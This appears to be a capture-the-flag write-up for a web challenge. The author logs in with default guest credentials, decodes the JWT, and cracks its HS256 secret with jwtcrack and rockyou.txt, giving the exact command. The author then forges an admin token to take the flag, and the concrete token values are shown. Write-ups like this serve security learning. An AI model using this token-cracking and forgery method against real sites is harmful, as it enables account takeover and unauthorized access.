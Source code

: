 # Challenge overview

Url: https://tastycookie.sumonnath.repl.co

There is a login page and i tried a lot all sql injections but not work. after while, i got idea to use common username and password list.

And by that for username and password `guest` is worked. When we logined, we can see the really wired jwt token.

orgrinal jwt token:
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QiLCJpZCI6Mn0.ag4rnpi-A1ENHyHJV0V9AZWeIfWxDo38ooJ3UQfU_co`

decoded:
```
Header:
{
  "alg": "HS256",
  "typ": "JWT"
}

Payload: (important part)
{
  "user": "guest",
  "id": 2
}
```
So , i changed the user to `admin` and `id` to `1` because admin is the first user of website as usually and i used the edited token, but it didn't worked. 

Edited jwt token's header

```
Header:
{
  "alg": "HS256",
  "typ": "JWT"
}

Payload: (important part)
{
  "user": "admin",
  "id": 1
}

```

After researching while, i knew that i need to `secret key` of token. So i used this python script tool to crack the `real key` [Jwtcrack](https://github.com/Sjord/jwtcrack)

`Command: sudo python3 crackjwt.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QiLCJpZCI6Mn0.ag4rnpi-A1ENHyHJV0V9AZWeIfWxDo38ooJ3UQfU_co rockyou.txt`

Output:
`Found secret key: password`

So, we know secret key now. we just need to add the **secret key** (`password`) in https://jwt.io/ 's `VERIFY SIGNATURE` feature.

Final Jwt token's headers

```
Header:
{
  "alg": "HS256",
  "typ": "JWT"
}

Payload: (important part)
{
  "user": "admin",
  "id": 1
}

VERIFY SIGNATURE: 

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  [password] (place to enter our secret key)
  secret base64 encoded
```

Final token: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpZCI6MX0.MvHiKRJGPsr3tglm-khTh_lHWizATyxVoCs2lyVKiso`

and copy the final jwt token and paste in cookie manger for website and got flag. Really Really Cool!

# flag
DSPH{i_love_cookie_playing}
